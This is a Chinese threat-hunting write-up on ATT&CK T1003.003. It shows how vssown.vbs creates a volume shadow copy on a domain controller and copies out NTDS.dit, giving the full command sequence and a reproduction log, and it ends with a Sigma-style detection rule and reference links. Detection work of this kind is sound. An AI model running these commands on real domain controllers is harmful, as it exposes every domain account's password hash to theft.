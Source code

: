 # T1003-003-win-使用vssown.vbs获得NTDS.dit文件

## 来自ATT&CK的描述

攻击者可能试图访问或创建Active Directory域数据库的副本，以便窃取凭据信息，以及获取有关域成员（例如设备，用户和访问权限）的其他信息。默认情况下，NTDS文件（NTDS.dit）位于%SystemRoot%\NTDS\Ntds.dit域控制器中。

除了在活动的域控制器上查找NTDS文件之外，攻击者还可能搜索包含相同或相似信息的备份。

下列工具和技术可用于枚举NTDS文件和整个Active Directory哈希的内容。

卷影复制

secretsdump.py

使用内置的Windows工具ntdsutil.exe

调用卷影副本

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2016+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```dos
cscript vssown.vbs /start
cscript vssown.vbs /create c
cscript vssown.vbs /list
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy11\windows\ntds\ntds.dit C:\
cscript vssown.vbs /delete
```

## 检测日志

windows 安全日志

## 测试复现

```dos
C:\Users\Administrator\Desktop\test>cscript vssown.vbs /start
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Signal sent to start the VSS service.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /create c
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Attempting to create a shadow copy.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /list
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

SHADOW COPIES
=============

[*] ID:                  {42C8E0BD-6FD9-4CFB-B006-4640DAE84DC8}
[*] Client accessible:   True
[*] Count:               1
[*] Device object:       \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[*] Differential:        True
[*] Exposed locally:     False
[*] Exposed name:
[*] Exposed remotely:    False
[*] Hardware assisted:   False
[*] Imported:            False
[*] No auto release:     True
[*] Not surfaced:        False
[*] No writers:          True
[*] Originating machine: ICBC.abcc.org
[*] Persistent:          True
[*] Plex:                False
[*] Provider ID:         {B5946137-7B9F-4925-AF80-51ABD60B20D5}
[*] Service machine:     ICBC.abcc.org
[*] Set ID:              {584C48BF-649D-4B35-9CAE-3165C2C8BE53}
[*] State:               12
[*] Transportable:       False
[*] Volume name:         \\?\Volume{16da2094-7213-420f-a023-db7b3e3a7f6f}\


C:\Users\Administrator\Desktop\test>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\
已复制         1 个文件。

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /delete
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。
```

## 测试留痕

测试留痕日志下载地址：<https://github.com/12306Bro/Threathunting-book/blob/master/Eventdata/vssown.evtx>

## 检测规则/思路

```yml
title: 使用vssown.vbs拿到NTDS.dit文件
description: windows server 2016+ AD域控
tags: T1003-003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688 #已创建新的进程。
        New processname: C:\Windows\System32\cscript.exe
        Process commandline:
           - cscript  *.vbs /start #基于命令行检测
           - cscript  *.vbs /create c #基于命令行检测
           - cscript  *.vbs /delete #基于命令行检测
           - cscript  *.vbs /list #基于命令行检测
    condition: selection
---
detection:
    selection1:
        EventID: 4904 #已试图注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    selection2:
        EventID: 8222 #已创建影子副本。
        Process image name: C:\Windows\System32\wbem\WmiPrvSE.exe
        Raw volume: \\?\Volume{*}\ #"*"代表正则匹配
        Shadow device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy* #"*"代表正则匹配
    selection3:
        EventID: 4905 #已试图取消注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    ​timeframe: last 10S #自定义时间范围
    condition: all of them
level: medium
```

注意：此检测仅适用于windows AD域控主机。

## 参考推荐

MITRE-ATT&CK-T1003-003

<https://attack.mitre.org/techniques/T1003/003>

vssown.vbs下载地址

<https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs>

域渗透——获得域控服务器的NTDS.dit文件

<https://xz.aliyun.com/t/2187>

MITRE ATT&CK攻击知识库（企业）中文版

<https://hansight.github.io/#/>
